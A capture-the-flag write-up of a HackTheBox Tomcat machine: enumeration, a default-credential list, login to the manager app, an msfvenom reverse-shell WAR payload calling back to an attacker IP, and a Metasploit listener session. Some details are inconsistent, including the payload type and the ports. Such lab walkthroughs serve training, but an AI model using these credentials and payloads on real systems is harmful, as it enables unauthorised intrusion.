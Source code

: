 ```yaml
---
published: true
---
```

hackthebox.eu virtual machine; Simple box, tomcat running as system with default credentials uploads malicious WAR file.

----------

Legal Usage:
*The information provided by execute@will is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risks/responsibilities.*

----------
# 1. Enumeration

Nmap

    # nmap -sC -sV -oA htb 10.10.10.95
    
    Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-17 07:13 EDT
    Nmap scan report for 10.10.10.95
    Host is up (0.19s latency).
    Not shown: 999 filtered ports
    PORT     STATE SERVICE VERSION
    8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
    |_http-favicon: Apache Tomcat
    |_http-server-header: Apache-Coyote/1.1
    |_http-title: Apache Tomcat/7.0.88
- Discovered Apache Tomcat/7.0.88 on port 8080

Nikto

    # nikto -h 10.10.10.95:8080
    
    - Nikto v2.1.6
    ---------------------------------------------------------------------------
    + Target IP:          10.10.10.95
    + Target Hostname:    10.10.10.95
    + Target Port:        8080
    ---------------------------------------------------------------------------
    + Server: Apache-Coyote/1.1
    + The anti-clickjacking X-Frame-Options header is not present.
    + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
    + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
    + No CGI Directories found (use '-C all' to force check all possible dirs)
    + Server leaks inodes via ETags, header found with file /favicon.ico, fields: 0xW/21630 0x1525691762000
    + OSVDB-39272: favicon.ico file identifies this server as: Apache Tomcat
    + Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS
    + OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
    + OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
    + Web Server returns a valid response with junk HTTP methods, this may cause false positives.
    + /examples/servlets/index.html: Apache Tomcat default JSP pages present.
    + OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
- Discovered Apache Tomcat and JSP vulnerability
# 2. Navigate to 10.10.10.95:8080
![8080.jpg](https://github.com/executeatwill/ctf/blob/gh-pages/_posts/8080.jpg?raw=true)


“access: http://10.10.10.95:8080/manager/html "Manager App"
Username: tomcat
Password: s3cret

    list of Apache Default Credentials 
    Username Password
    admin     password
    admin     
    admin     Password1
    admin     password1
    admin     admin
    admin     tomcat
    both     tomcat
    manager manager
    role1     role1
    role1     tomcat
    role     changethis
    root     Password1
    root     changethis
    root     password
    root     password1
    root     r00t
    root     root
    root     toor
    tomcat     tomcat
    tomcat     s3cret
    tomcat     password1
    tomcat     password
    tomcat     
    tomcat     admin
    tomcat     changethis

source: https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown

# 3. Attack Vector

utilizing a specialied WAR file we can upload to the server and access a .jsp that will allow access to the system

![war.jpg](https://github.com/executeatwill/ctf/blob/gh-pages/_posts/war.jpg?raw=true)


Crafting WAR file:
tools: msfvenom

    msfvenom -p payload/windows/shell/reverse_tcp  LHOST=10.10.13.75 LPORT=9000 -f war -o war.war
    No encoder or badchars specified, outputting raw payload
    Payload size: 341 bytes
    Final size of war file: 52304 bytes
    Saved as: war.war

extract file:

    jar -xvf war.war 
    created: META-INF/
    inflated: META-INF/MANIFEST.MF
    created: WEB-INF/
    inflated: WEB-INF/web.xml
    inflated: yewdmyrhyi.jsp
- Extracted .jsp will be coded by msfvenom and will change. The war.war will be uploaded via the deployment section. Before accessing .jsp creation of listener is required.
# 4. Setup Listener

tool: msf

    msfdb run
- quick way to start postgres and metasploit framework

after initilzation:

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST LOCALIP
    set LPORT 9000
    exploit

Access: http://10.10.10.95/war/yewdmyrhyi.jsp

- wait for reverse tcp connection
    [*] Started reverse TCP handler on 10.10.13.75:9002
    [*] Sending stage (179779 bytes) to 10.10.10.95
    [*] Meterpreter session 1 opened (10.10.13.75:9002 -> 10.10.10.95:49200) at 2018-10-17 06:52:41 -0400
    msf exploit(multi/handler) > sessions -i 1
    [*] Starting interaction with 1...
    
    meterpreter > dir
    
   Listing: C:\apache-tomcat-7.0.88
    ================================
    
    Mode              Size   Type  Last modified              Name
    ----              ----   ----  -------------              ----
    100666/rw-rw-rw-  57896  fil   2018-05-07 07:16:00 -0400  LICENSE
    100666/rw-rw-rw-  1275   fil   2018-05-07 07:16:00 -0400  NOTICE
    100666/rw-rw-rw-  9600   fil   2018-05-07 07:16:00 -0400  RELEASE-NOTES
    100666/rw-rw-rw-  17454  fil   2018-05-07 07:16:00 -0400  RUNNING.txt
    40777/rwxrwxrwx   8192   dir   2018-06-18 21:06:55 -0400  bin
    100666/rw-rw-rw-  0      fil   2018-10-17 13:38:59 -0400  cd
    40777/rwxrwxrwx   4096   dir   2018-06-18 23:47:35 -0400  conf
    40777/rwxrwxrwx   8192   dir   2018-06-18 21:06:55 -0400  lib
    40777/rwxrwxrwx   8192   dir   2018-10-17 13:29:45 -0400  logs
    100666/rw-rw-rw-  113    fil   2018-10-17 13:38:58 -0400  shell
    40777/rwxrwxrwx   4096   dir   2018-10-17 13:55:19 -0400  temp
    40777/rwxrwxrwx   4096   dir   2018-10-17 13:55:15 -0400  webapps
    40777/rwxrwxrwx   0      dir   2018-06-18 21:34:12 -0400  work

Navigate to flag: C:\Users\Administrator\Desktop\flags
read file with `meterpreter > cat "2 for the price of 1.txt"`

# 5. Final Thoughts

As a beginner level box there is a wide assortment of things that can be learned. From discovering/exploiting the PUT .jsp within Apatche Tomcat, along with the complexity of standard CVE scripts could not be used due to the nature of how the server was set up. All these tasks could have been streamlined within the Metasploit Framework but it's best practice to use msfvenom and craft payloads while understanding how exactly they will function.
-exec@will

# 6. Further Learning/Sources:
- [http://blog.opensecurityresearch.com/2012/09/manually-exploiting-tomcat-manager.html](http://blog.opensecurityresearch.com/2012/09/manually-exploiting-tomcat-manager.html)
- [https://pentestlab.blog/2012/08/26/using-metasploit-to-create-a-war-backdoor/](https://pentestlab.blog/2012/08/26/using-metasploit-to-create-a-war-backdoor/)
- [https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
- [https://www.windows-commandline.com/read-file-from-command-line/](https://www.windows-commandline.com/read-file-from-command-line/)
